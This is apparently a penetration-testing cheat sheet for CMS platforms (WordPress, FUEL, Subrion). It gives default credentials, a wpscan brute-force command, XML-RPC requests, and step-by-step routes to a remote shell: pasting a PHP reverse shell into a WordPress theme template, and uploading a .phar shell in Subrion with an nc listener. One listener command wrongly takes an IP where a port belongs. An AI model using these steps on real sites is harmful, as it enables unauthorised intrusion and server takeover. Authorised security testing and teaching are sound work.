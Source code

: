 ```yaml
---
title: CMS Pentesting
desc: Pentesting for the CMS used in the Web Applications. WordPress.
tags: [CMS, Cmseek, FUEL, Subrion, Web, WordPress]
alts: []
render_with_liquid: false
---
```


## 1. CMS Detection

You need to detect which CMS is used in the web page.

1. **Using Detection Tools**

    - **[Cmseek](https://github.com/Tuhinshubhra/CMSeeK){:target="_blank"}**

        ```sh
        cmseek -u vulnerable.com
        ```

<br />

## 2. WordPress Pentesting

1. **Manual Pentesting**

    - **Find Common Directories**

        ```sh
        /author/admin/
        /index.php/author/admin/
        /license.txt
        /readme.html
        /wp-admin/
        /wp-admin/upload.php

        # Private/Draft Posts (WordPress <= 5.2.3) 
        /?static=1
        ```

    - **Try to Login with Default Credential**

        Access to **/wp-login.php** and use the default credential in the login form.

        ```
        admin:password
        ```

    - **PHP Reverse Shell Injection**

        It's required the **"admin" credentials.**

        ```
        1. Access to dashboard (/wp-admin/).
        2. Move to "Appearance" and select theme named "Twenty Seventeen".
        3. Click "Theme Editor" or "Editor" in the "Appearance" section.
        4. In the theme editor, click "404 Template (404.php)" on the right.
        5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
        6. Edit "IP" and "Port" in the code.
        7. In your terminal, run 'nc -lvnp <IP>'.
        8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
        ```

    - **XML-RPC (xmlrpc.php)**

        - **Get All Methods**

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?> 
            <methodCall> 
            <methodName>system.listMethods</methodName> 
            <params></params> 
            </methodCall>
            ```

        - **Ping Back**

            Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}** to confirm the results.

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?>
            <methodCall>
            <methodName>pingback.ping</methodName>
            <params>
            <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
            <param><value><string>http://vulnerable.com</string></value></param>
            </params>
            </methodCall>
            ```

2. **Use Automation Tools**

    - **[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}**

        WordPress security scanner.  
        It can brute force credentials.

        ```sh
        # --rua: random user agent
        # --http-auth username:password
        # -e: enumerate
        #  ap: All plugins
        #  at: All themes
        #  tt: Timthumbs
        #  cb: Config backups
        #  dbe: Db exports
        #  u: User IDs range
        #  m: Media IDs range
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

        # Specifify username (-U)
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
        ```

<br />

## 3. FUEL CMS Pentesting

1. **Login using Default Credential**

    ```
    admin:admin
    ```

<br />

## 4. Subrion CMS Pentesting

1. **File Upload to Reverse Shell**

    It is login required.

    1. **Download Reverse Shell Payload**

        Get the PHP payload from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.  
        And change the file extension to **'.phar'**.  
        Then open listener.

        ```sh
        nc -lvnp 4444
        ```

    2. **Upload the Payload in Subrion Panel**

        1. **Login**

        2. **Move to Content -> Uploads in Panel**

        3. **Upload reverse-shell.phar**

        4. **Access to /subrion/upload/reverse-shell.phar**

        Now you get a shell.